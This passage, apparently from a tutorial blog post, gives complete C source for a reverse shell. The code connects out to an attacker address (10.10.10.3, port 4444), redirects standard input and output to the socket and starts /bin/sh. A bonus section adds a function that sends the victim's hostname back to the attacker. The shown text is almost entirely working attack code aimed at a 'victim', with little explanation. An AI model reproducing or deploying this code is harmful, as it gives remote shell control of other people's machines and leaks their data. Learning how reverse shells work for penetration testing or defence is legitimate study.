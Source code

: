 Enough yapping, here's the full code:

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main(){
    const char* atk_ip = "10.10.10.3";

    // Preparing the target
    // sockaddr_in data struct to represent socket addresses
    struct sockaddr_in target_address;
    // sin_family identifies the address family or socket format
    // AF_INET = IPv4
    // AF_INET6 = IPv6
    target_address.sin_family = AF_INET;
    // htons = makes sure numbers stored in memory in network byte order
    // ensures big and little endian compatibility
    target_address.sin_port = htons(4444);
    inet_aton(atk_ip, &target_address.sin_addr);

    // Creating the socket
    int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);

    // Connecting
    connect(socket_file_descriptor, (struct sockaddr *) &target_address, sizeof(target_address));

    // Redirecting stdin, stdout and stderr
    for (int i = 0; i < 3; i++){
        dup2(socket_file_descriptor, i);
    }

    // Spawn shell
    execve("/bin/sh", NULL, NULL);
}
```

## Bonus - Expanding our Binary

Now that we've got the basics down, we can let our imagination fill in the gaps.

What if I wanted to get the victim's information when connecting back to the attacker? Say, let's get the victim's hostname!

Let's say we want to grab the victim's hostname, we just need to write a simple function:

```c
void get_hostname_info(int sock){
    char hostname[1024];
    char ip_addr[INET_ADDRSTRLEN];
    struct hostent *host_entry;

    gethostname(hostname, sizeof(hostname));
    char message[1024];
    snprintf(message, sizeof(message), "Hostname: %s\n", hostname);
    send(sock, message, strlen(message), 0);
}
```
